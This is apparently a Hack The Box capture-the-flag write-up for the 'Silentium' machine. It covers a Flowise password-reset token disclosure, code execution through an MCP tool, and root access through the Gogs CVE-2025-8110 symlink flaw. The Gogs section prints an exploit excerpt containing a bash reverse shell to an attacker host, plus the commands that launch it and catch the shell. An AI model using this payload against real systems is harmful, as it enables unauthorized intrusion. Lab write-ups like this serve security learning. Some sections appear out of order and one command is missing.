


# Silentium Hack The Box

A penetration testing lab documenting the discovery and exploitation of vulnerabilities in a self-hosted Git service and an AI workflow automation platform.

## Overview

| Information      | Details                                                                                    |
| ---------------- | ------------------------------------------------------------------------------------------ |
| Platform         | Hack The Box                                                                               |
| Machine          | Silentium                                                                                  |
| Difficulty       | Easy                                                                            |
| Operating System | Linux                                                                                      |
| Focus Areas      | Web Enumeration, API Security, Authentication, Remote Code Execution, Privilege Escalation |

## Objectives

* Enumerate exposed services and discover hidden web applications.
* Investigate authentication and password-reset vulnerabilities.
* Explore API functionality and application configuration.
* Obtain remote command execution in the lab environment.
* Investigate local services and privilege escalation opportunities.

## 1. Initial Enumeration

I started by scanning the target to identify exposed ports and services.

```bash
nmap -A -p22,80 <TARGET_IP>
```

### Findings
| Port | Service | Observation               |
| ---- | ------- | ------------------------- |
| 22   | SSH     | OpenSSH running on Ubuntu |
| 80   | HTTP    | Nginx web server          |

The HTTP service redirected requests to the `silentium.htb` hostname.

I configured the hostname locally:

```bash
echo "<TARGET_IP> silentium.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Enumeration

I used Gobuster to discover additional virtual hosts.

```bash
gobuster vhost \
  -u http://silentium.htb \
  -w /usr/share/wordlists/dirb/common.txt \
  --append-domain
```


This revealed a staging subdomain:

```text
staging.silentium.htb
```

The staging application became the primary focus of my investigation.


### Impact

The exposed reset token could be used to reset an account's password without the original account credentials.

This provided an authentication foothold in the application.

### User Discovery

While exploring the staging website, I found the username ben on the homepage.

Based on the discovered username and the target's domain, I identified the following email address:
```text
ben@silentium.htb
```
I used this email address when investigating the password-reset functionality.

This discovery provided a potential account to investigate and helped me proceed with the password-reset vulnerability analysis.

## 2. Password Reset Token Disclosure

The staging application exposed a password-reset functionality.

While investigating its API, I identified an unauthenticated password-reset token disclosure affecting the Flowise application.

The vulnerability was associated with:

**CVE-2025-58434 — Flowise unauthenticated password-reset token disclosure leading to account takeover.**

The GitHub Advisory Database identified affected Flowise versions as `3.0.5` and below, with `3.0.6` listed as the patched version. <a href="https://github.com/advisories/GHSA-wgpv-6j63-x5ph"> here </a>


## 3. Flowise API and Authentication

After obtaining access to the application, I explored its API endpoints and authentication mechanisms.

I examined:

* Password-reset requests and responses.
* API authentication headers.
* API key management.
* Application configuration.
* Available workflow and tool functionality.

I also investigated how Flowise handled requests to its internal services.


## 4. Remote Code Execution

During further investigation, I discovered an MCP tool configuration that allowed server-side JavaScript execution.

The vulnerable configuration could be abused to execute operating-system commands from the application.

I used this behavior to establish a reverse shell in the authorized lab environment.


### Result

```text
uid=0(root) gid=0(root) groups=...
```

## 5. Pivoting to the Host

After obtaining a shell inside the Docker container, I began investigating how to access the underlying host machine.

Credential Discovery

I enumerated the container's environment variables using:



This revealed sensitive application configuration, including credentials for the local user ben.

Since SSH was exposed on port 22, I used the discovered credentials to authenticate as ben on the host machine.
```text
SSH Access
ssh ben@silentium.htb
```
After successfully authenticating, I gained access to the host as the ben user.


User Flag

I retrieved the user flag from Ben's home directory:
```text
cat /home/ben/user.txt
```
User flag captured!

## 6. Privilege Escalation via CVE-2025-8110 (Gogs)

During enumeration, I discovered a Gogs instance running locally. Gogs is vulnerable to **CVE-2025-8110**, a symlink-based remote code execution vulnerability.

The vulnerability allows an authenticated user to overwrite `.git/config` inside a repository by exploiting symbolic link handling. By injecting an arbitrary `sshCommand`, an attacker can execute commands when a privileged process runs `git push`.

### Exploit Research

I searched online for a proof of concept and found the following repository:
<a href="https://github.com/zAbuQasem/gogs-CVE-2025-8110.git"> here </a>

I modified the PoC by changing the credentials to those of my registered account and removing the registration function.

### 1. Register an Account and Generate an API Token

The Gogs instance allowed open registration. I registered an account using a username and password, then generated an application token from the settings page to use with the API.

Example credentials:

```text
Username: user
Password: Password123!
```

I updated the exploit script with the registered account's credentials.

```python
username = "user"
password = "Password123!"

command = f"bash -c 'bash -i >& /dev/tcp/{args.host}/{args.port} 0>&1' #"

try:
    login(session, args.url, username, password)
    token = get_application_token(session, args.url)
    repo_name = create_malicious_repo(session, args.url, token)
    git_config = f"""[core]
    ...
```

### 2. Launch the Exploit

I started an Ncat listener on my attacking machine and executed the modified exploit script.

```bash
python3 exploit_cve-2025-8110.py \
  -u TARGET_URL \
  -lh ATTACKER_IP \
  -lp ATTACKER_PORT
```

The script returned:

```text
[+] Exploit sent, check your listener!
```

### 3. Catch the Root Shell

The listener received a connection from the target.

```bash
ncat -lvp 5555
```

Connection received:

```text
Ncat: Connection from 10.129.26.252:49102.
root@silentium:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Root shell obtained!**
****


## 7. Key Takeaways

This machine provided practical experience with several areas of penetration testing:

* Virtual host enumeration and hostname resolution.
* Understanding HTTP requests, headers, and API responses.
* Identifying authentication and password-reset weaknesses.
* Investigating JSON-based API functionality.
* Understanding the security implications of exposed API keys and configuration values.
* Exploiting server-side command execution in a controlled environment.
* Enumerating Linux services and application configurations.
* Investigating known CVEs and adapting proof-of-concept research to a lab environment.

## Tools Used

* Nmap
* Gobuster
* cURL
* Netcat
* SSH
* Linux command-line utilities
* Burp Suite

## Conclusion

Silentium was a valuable hands-on exercise in web application security and Linux enumeration.

The investigation demonstrated how weaknesses in authentication, application configuration, and server-side execution can combine to compromise an application.

It also reinforced the importance of understanding HTTP and API behavior rather than relying solely on automated tools or existing exploit scripts.

## Disclaimer

This documentation is for educational purposes and reflects work performed in an authorized Hack The Box lab environment.

All sensitive information, including credentials, API keys, tokens, and target addresses, has been omitted.

Do not use these techniques against systems without explicit authorization.
